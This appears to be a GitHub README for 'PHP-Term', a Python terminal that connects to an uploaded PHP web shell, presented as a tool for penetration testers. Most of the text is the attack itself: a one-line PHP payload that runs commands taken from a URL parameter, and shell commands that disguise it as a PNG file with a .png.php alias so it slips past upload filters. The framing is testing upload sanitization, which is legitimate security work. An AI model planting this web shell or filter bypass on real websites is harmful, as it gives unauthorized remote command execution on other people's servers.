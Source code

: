 # PHP-Term
![phpterm](https://github.com/user-attachments/assets/3930a006-4bf9-4257-bd3c-8fef646412b2)
A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester a remote shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Paylaod:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
